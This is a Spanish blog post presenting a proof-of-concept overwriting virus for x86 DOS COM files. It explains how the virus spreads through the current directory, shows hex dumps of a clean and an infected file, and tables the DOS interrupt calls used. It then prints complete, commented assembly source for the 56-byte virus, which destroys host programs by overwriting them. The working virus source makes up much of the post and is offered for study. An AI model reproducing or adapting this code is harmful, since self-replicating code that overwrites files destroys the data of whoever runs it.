 ```yaml
---
categories: [Malware, Programación]
layout: post
published: true
tags: [16-bit, ASM-x86, DOS, PoC, TASM, Virus]
title: "Prueba de concepto - Virus: x86/DOS, COM, Overwriting"
toc: true
---
```


Prueba de concepto de virus en la plataforma x86/DOS con estrategia de infección por 
overwriting (sobrescritura) en archivos COM. El virus infecta archivos en tiempo 
de ejecución.

## Método de infección
El virus simplemente sobrescribe otros archivos COM con el código viral. Es la estrategia
más primitiva, pero es muy agresiva y destructiva. Todas las generaciones del 
virus son idénticas.

{% img infection.png | {"width":"350"} %}

Generalmente nada se preserva de los archivos huéspedes ya que son destruidos por la sobrescritura. 
La desinfección consiste en eliminar todos los archivos infectados.

## Método de propagación
La infección se realiza en el momento de ejecución infectando todos los archivos COM en el 
directorio actual a excepción de aquellos con atributo READ-ONLY, HIDDEN o SYSTEM.

## Flujo de ejecución
{% img flow.png | {"width":"350"} %}

## Análisis estático
Hex dump de un archivo sano de tamaño 80 bytes:
<pre class="ovf">
<span>Offset  00 01 02 03 04 05 06 07  ANSI</span>
<span>0x0000</span>  <span>B4 09 BA 39 01 CD 21 90</span>  <span>´.º9.Í!.</span>
<span>0x0008</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0010</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0018</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0020</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0028</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0030</span>  <span>90 90 90 90 90 B4 00 CD</span>  <span>.....´.Í</span>
<span>0x0038</span>  <span>21 54 68 69 73 20 69 73</span>  <span>!This is</span>
<span>0x0040</span>  <span>20 61 20 68 6F 73 74 20</span>  <span> a host </span>
<span>0x0048</span>  <span>66 69 6C 65 21 0D 0A 24</span>  <span>file!..$</span>
</pre>

Hex dump del archivo infectado:
<pre class="ovf">
<span>Offset  00 01 02 03 04 05 06 07  ANSI</span>
<span>0x0000</span>  <span class="vs">B4 4E 33 C9 BA 32 01 CD</span>  <span class="vs">´N3Éº2.Í</span>
<span>0x0008</span>  <span class="vs">21 73 08 EB 21 B4 4F CD</span>  <span class="vs">!s.ë!´OÍ</span>
<span>0x0010</span>  <span class="vs">21 72 1B B4 3D B0 02 BA</span>  <span class="vs">!r.´=°.º</span>
<span>0x0018</span>  <span class="vs">9E 00 CD 21 8B D8 B4 40</span>  <span class="vs">ž.Í!‹Ø´@</span>
<span>0x0020</span>  <span class="vs">B9 38 00 BA 00 01 CD 21</span>  <span class="vs">¹8.º..Í!</span>
<span>0x0028</span>  <span class="vs">B4 3E CD 21 EB DF B4 00</span>  <span class="vs">´>Í!ëß´.</span>
<span>0x0030</span>  <span class="vs">CD 21 2A 2E 63 6F 6D 00</span>  <span class="vs">Í!*.com.</span>
<span>0x0038</span>  <span>21 54 68 69 73 20 69 73</span>  <span>!This is</span>
<span>0x0040</span>  <span>20 61 20 68 6F 73 74 20</span>  <span> a host </span>
<span>0x0048</span>  <span>66 69 6C 65 21 0D 0A 24</span>  <span>file!..$</span>
</pre>
<style>
  pre.ovf span { color: #000; }
  pre.ovf span:first-of-type { line-height:200% }
  pre.ovf span.vs { color: #ff0000 }
</style>

El virus sobrescribe desde el offset 0x0000 hasta 0x0037 (56 bytes). Lo único que se 
conserva del huésped es el código luego del offset 0x0037. Si el huésped fuera menor 
a 56 bytes no quedaría nada de el.

## API utilizada
Se utilizan 6 servicios de la DOS API mediante la interrupción de software 21h.
<div class="table-responsive">
<table class="table">
  <thead class="thead-light">
    <tr>
      <th>Servicio</th>
      <th>AH</th>
      <th>Parámetros</th>
      <th>Retorno</th>
      <th>Versión DOS</th>
    </tr>
  </thead>
  <tr>
    <td>Terminar programa</td>
    <td>00h</td>
    <td class="center">-</td>
    <td class="center">-</td>
    <td>1+</td>
  </tr>
  <tr>
    <td>Abrir archivo existente</td>
    <td>3Dh</td>
    <td>AL = modos de acceso e intercambio<br>DS:DX -&gt; nombre del archivo (ASCIZ)</td>
    <td>Éxito: CF = 0, AX = handle del archivo <br>Error: CF = 1, AX = código de error </td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Cerrar archivo</td>
    <td>3Eh</td>
    <td>BX = handle del archivo</td>
    <td>Éxito: CF = 0, AX destruido <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Escribir en archivo <br>o dispositivo</td>
    <td>40h</td>
    <td>BX = handle del archivo <br>CX = nro. de bytes <br>DS:DX -&gt; datos a escribir</td>
    <td>Éxito: CF = 0, AX = nro. de bytes escritos <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Buscar el primer archivo <br>coincidente</td>
    <td>4Eh</td>
    <td>CX = máscara de atributos de archivo<br>DS:DX -&gt; nombre del archivo (ASCIZ)</td>
    <td>Éxito: CF = 0, resultado en DTA <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Buscar el siguiente archivo <br>coincidente</td>
    <td>4Fh</td>
    <td class="center">-</td>
    <td>Exito: CF = 0, resultado en DTA <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
</table>
</div>

## Código fuente
{% highlight nasm linenos %}
;##############################################################################
;# Nombre:        virus://DOS/Trivial.56
;# Plataforma:    Intel x86
;# SO:            DOS v2.0+, Win32 (mediante NTVDM)
;# Lenguaje:      ASM x86-16 (sintaxis Intel)
;# Herramientas:  TASM v4.1, TLINK v7.1.30
;# Tipo:          Overwriting, Non-Resident, COM infector
;# Tamaño:        56 bytes
;# Propagación:   Acción directa sobre el directorio actual. 
;# Infección:     Sobrescritura de archivos COM (no READ-ONLY/HIDDEN/SYSTEM).
;# Residente:     No
;# Stealth:       No
;# Payload:       No
;##############################################################################

.8086  
.model tiny

assume cs:virus, ds:virus

virus segment byte public 'CODE'

    org     100h

start:    
    mov     ah, 4Eh               ; | AH = 4Eh 
    xor     cx, cx                ; | CX = 0, archivos normales
    lea     dx, search_str        ; | DS:DX -> "*.COM"
    int     21h                   ; |_DOS API - Buscar primer archivo

    jnc     infect_file           ; archivo encontrado
    jmp     exit                  ; no hay archivo

find_next:    
    mov     ah, 4Fh               ; | AH = 4Fh  
    int     21h                   ; |_DOS API - Buscar siguiente archivo 

    jc      exit                  ; no hay archivo

infect_file:    
    mov     ah, 3Dh               ; | AH = 3Dh 
    mov     al, 2                 ; | AL = 2, lectura y escritura
    mov     dx, 9Eh               ; | DS:DX -> DTA + 1Eh = 9Eh (FileName)
    int     21h                   ; |_DOS API - Abrir archivo existente

    mov     bx, ax                ; | BX = handle del archivo 
    mov     ah, 40h               ; | AH = 40h
    mov     cx, virus_size        ; | CX = tamaño del virus
    lea     dx, start             ; | DS:DX -> inicio del código viral
    int     21h                   ; |_DOS API - Escribir en archivo/dispositivo

    mov     ah, 3Eh               ; | AH = 3Eh 
    int     21h                   ; |_DOS API - Cerrar archivo

    jmp     find_next             ; buscar siguiente

exit:    
    mov     ah, 00h               ; | AH = 00h
    int     21h                   ; |_DOS API - Retornar a DOS

search_str    db   "*.com", 00h   ; nombre comodín de búsqueda
virus_size    equ  ($ - start)    ; tamaño del virus

virus ends
end start
{% endhighlight %}

## Casos reales
* La familia de virus *Trivial* en sistemas DOS se caracteriza por tener los 
  ejemplares de virus más pequeños. Por ejemplo, *DOS/Trivial.22* es un 
  virus de solo 22 bytes.
* El gusano *VBS/LoveLetter.A@mm* tiene como principal vector de propagación el
  envió masivo de e-mails. Al ejecutarse sobre escribe archivos de extensión 
  *.vbs*, *.vbe*, *.js*, *.css*, *.jpg*, *.txt*, *.html*, *.avi*, *.mp3*, 
  y muchos más. Fue notablemente exitoso en el 2000.

## Bibliografía
{% bibliography -q
   @*[key=Szor2005
   || key=Phalcon-Skism,
   || key=Williams1992] 
%} 